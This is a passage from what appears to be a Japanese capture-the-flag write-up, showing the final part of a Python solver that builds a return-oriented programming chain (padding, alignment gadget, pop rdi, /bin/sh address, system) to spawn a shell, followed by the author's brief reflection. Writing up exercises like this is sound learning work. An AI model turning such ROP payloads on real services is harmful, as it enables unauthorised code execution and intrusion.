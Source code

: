 ```python
print("---------------------------------------------------------------")

#4th:ROP chain
payload = b"A" * 376
payload += p64(ret) # aalignment adjustment
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
session.sendline(payload)
session.interactive()
```

# 感想
***
今回の問題は、pwnの基礎的な知識の総集編みたいな感じで楽しかった！  
libc部分とかがまだ曖昧なのと長めなsolverになってしまったのでもうちょっと頑張りたいな😆
<br>


